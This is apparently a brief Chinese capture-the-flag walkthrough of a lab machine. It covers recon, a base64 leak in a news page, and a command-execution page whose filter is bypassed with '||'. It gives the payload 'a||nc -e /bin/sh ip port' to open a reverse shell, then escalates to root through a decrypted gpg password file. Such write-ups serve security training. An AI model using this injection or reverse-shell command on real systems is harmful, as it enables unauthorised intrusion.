







# Recon

这台机器开放标准端口的`ftp`、`http`和非标准端口的`ssh`

# shell as www-data by command-injection

网页前端看起来是一个大学官网，有几个静态的超链接

`/news.html`，源代码中有一串`base64`，

解码内容，其中泄露了一个路径`passwords.html`

目录扫描发现`dev_shell.php`，访问发现是一个命令执行功能点，存在限制

通过`||`bypass，使用`a||nc -e /bin/sh ip port`反弹shell

# shell as root by gpg leak

例行检查，发现`/home/bob/Documents/login.txt.gpg`，尝试解密得到密码

解密后得到bob用户密码，切换后`sudo su`获得root

如果要问解密的密码是哪来的，他来自于一个没什么含义的目录下一段没什么含义的字符中每一行的首字母

